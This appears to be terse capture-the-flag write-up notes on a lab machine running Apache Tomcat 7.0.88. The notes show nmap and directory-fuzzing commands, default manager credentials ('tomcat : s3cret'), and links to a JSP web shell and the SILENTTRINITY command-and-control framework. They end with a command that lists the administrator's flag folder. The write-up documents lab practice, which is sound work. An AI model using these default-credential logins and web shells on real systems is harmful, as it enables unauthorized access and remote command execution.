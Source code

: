 Run an nmap scan of target

```php
nmap -A -sV -Pn 10.129.136.9

8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1

```

Our points of interest
Were interested in this Apache server that could be hosting some kind of app

Run a `gobuster` and `ffuf` scan on the target

```php
ffuf -u http://10.129.136.9:8080/FUZZ -w /home/drew/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -fc 404

gobuster dir -u http://10.129.136.9:8080 -w /home/drew/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --no-error
```

Our points of interest
`http://10.129.136.9:8080/` - default web page for `Apache Tomcat/7.0.88`
`http://10.129.136.9:8080/docs/` - documentation page for `Apache Tomcat`
`http://10.129.136.9:8080/manager` - this is what we want

We find a login prompt to authenticate, we have no credentials so lets first try some default ones and see what hits.

```
conf/tomcat-users.xml in your installation. That file must contain the credentials to let you use this webapp.
```

```php
https://gist.github.com/0xRar/70aae102af56495b7be51486d363c4bd
tomcat : s3cret
```

```php
http://10.129.136.9:8080/manager/html/start?path=/&org.apache.catalina.filters.CSRF_NONCE=3A9BC6E251392AA7A004501412F55376
```


```
https://github.com/SecurityRiskAdvisors/cmd.jsp.git
```

```
cmd /c dir \users\administrator\desktop\flags

```

```
https://github.com/byt3bl33d3r/SILENTTRINITY
```